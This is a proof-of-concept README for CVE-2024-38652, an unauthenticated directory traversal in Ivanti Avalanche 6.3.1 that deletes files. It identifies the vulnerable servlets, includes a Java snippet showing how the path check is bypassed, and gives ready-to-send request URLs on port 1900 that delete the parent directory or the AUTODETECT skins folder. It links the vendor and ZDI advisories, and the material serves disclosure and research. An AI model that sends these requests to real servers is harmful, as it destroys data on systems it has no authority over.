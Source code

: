 ## CVE-2024-38652
## VULNERABILITY DETAILS	

Ivanti Avalanche deleteSkin Directory Traversal Arbitrary File Deletion Vulnerability

This vulnerability allows remote attackers to delete arbitrary files on affected installations of Ivanti Avalanche. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the deleteSkin method. The issue results from the lack of proper validation of a user-supplied path prior to using it in file operations. An attacker can leverage this vulnerability to delete files in the context of SYSTEM.

## VULNERABILITY
Ivanti Avalanche premise 6.3.1.1507 (tested)

Check C:\Program Files\Wavelink\Avalanche\RemoteControl\lib\RemoteControlServer.jar

com.wavelink.remotecontrol.server.servlets.SkinsServlet


## Example code
```
import java.io.File;
class HelloWorld {
    public static void main(String[] args) {
        File file = new File("", "..");
        System.out.println(file.getName());
        file = new File("./web/skins",file.getName());
        System.out.println(file);
    }
}
```
![image](https://github.com/user-attachments/assets/14a033a3-4a5d-4a84-9222-18646cd24f13)
![image](https://github.com/user-attachments/assets/df443415-48ba-46c3-90e7-c5d903774441)


## CVE-2024-38652-Poc

Request /Servlet/Skins?action=deleteSkin&guid=.. endpoint unauthen
```
<Host>:1900/Servlet/Skins?action=deleteSkin&guid=..
```
https://github.com/user-attachments/assets/d618690b-2a8a-472f-9d12-2cab703e6eb4



There is also a unauthenticated endpoint ``` <Host>:1900/app/rc?cmd=deleteSkin&guid={{directory}} ``` but have a valid directory check

Delete directory AUTODETECT with: ``` <Host>:1900/app/rc?cmd=deleteSkin&guid=AUTODETECT ```

directory AUTODETECT is default in C:\Program Files\Wavelink\Avalanche\RemoteControl\web\skins

Check file C:\Program Files\Wavelink\Avalanche\RemoteControl\app.war

com.wavelink.remotecontrol.app.servlets.RCServlet

## References:
- https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Avalanche-6-4-4-CVE-2024-38652-CVE-2024-38653-CVE-2024-36136-CVE-2024-37399-CVE-2024-37373?language=en_US
- https://www.zerodayinitiative.com/advisories/ZDI-24-1149/
